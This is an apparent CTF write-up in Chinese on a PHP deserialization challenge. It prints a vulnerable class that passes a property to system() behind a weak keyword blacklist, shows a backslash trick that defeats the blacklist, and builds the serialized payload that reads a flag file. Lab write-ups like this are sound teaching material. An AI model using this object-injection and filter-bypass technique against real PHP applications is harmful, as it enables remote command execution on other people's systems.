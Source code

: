 ### Unserialize？

php源码如下

```
 <?php
highlight_file(__FILE__);
// Maybe you need learn some knowledge about deserialize?
class evil {
    private $cmd;

    public function __destruct()
    {
        if(!preg_match("/cat|tac|more|tail|base/i", $this->cmd)){
            @system($this->cmd);
        }
    }
}

@unserialize($_POST['unser']);
?> 
```

过滤掉了cat、tac等命令

不过可以使用插入斜杠来绕过，比如cat=ca\\t等

这里生成序列化字符串的php代码👇

<?php  

// Maybe you need learn some knowledge about deserialize?  
class evil {  
private $cmd='ca\\t /th1s\_1s\_fffflllll4444aaaggggg';  


}

$a=new evil();  
echo serialize($a);

#O:4:"evil":1:{s:9:" evil cmd";s:35:"less /th1s\_1s\_fffflllll4444aaaggggg";}

注意由于这里的cmd参数是private类型，生成的字符串中会存在不可见字符，要用%00将其替换

![](./images/image-50.png)

最终传入payload👇
